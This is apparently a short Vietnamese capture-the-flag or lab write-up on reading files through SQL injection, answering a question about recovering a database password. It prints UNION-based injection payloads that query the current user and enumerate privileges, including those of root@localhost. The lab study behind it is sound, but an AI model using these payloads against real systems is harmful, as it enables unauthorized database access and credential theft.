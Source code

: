 # Reading Files

#### Questions
+ 1  We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

Kiểm tra người dùng hiện tại:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

![](images/10.png)

Liệu người dùng có đặc quyền hay không?

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

![](images/11.png)

`Y` nghĩa là có...
Liệt kê tất cả quyền hạn:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

